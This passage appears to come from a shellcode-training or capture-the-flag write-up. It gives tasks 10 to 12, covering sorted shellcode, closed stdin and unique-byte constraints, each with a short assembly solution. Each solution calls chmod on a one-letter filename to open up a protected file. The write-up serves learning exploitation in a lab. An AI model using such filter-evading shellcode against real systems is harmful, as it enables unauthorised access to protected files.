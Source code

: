 ```s
mov al,0x5a
mov esi,0x1f
syscall
```

## 10
Task:
This challenge just sorted your shellcode using bubblesort. Keep in mind the impact of memory endianness on this sort
(e.g., the LSB being the right-most byte).

This sort processed your shellcode 8 bytes at a time.

```s
.intel_syntax noprefix
.global _start
.section .text
_start:

push 0x41
push rsp
pop rdi
mov al,0x5a
mov esi,0x1f
syscall
```
## 11
Task:
This challenge is about to close stdin, which means that it will be harder to pass in a stage-2 shellcode. You will need
to figure an alternate solution (such as unpacking shellcode in memory) to get past complex filters.

```s
.intel_syntax noprefix
.global _start
.section .text
_start:

push 0x41
push rsp
pop rdi
mov al,0x5a
mov esi,0x1f
syscall
```
## 12
Task: This challenge requires that every byte in your shellcode is unique!

```s
.intel_syntax noprefix
.global _start
.section .text
_start:

push 0x41
push rsp
pop rdi
mov al,0x5a
mov sil,0x4
syscall
```
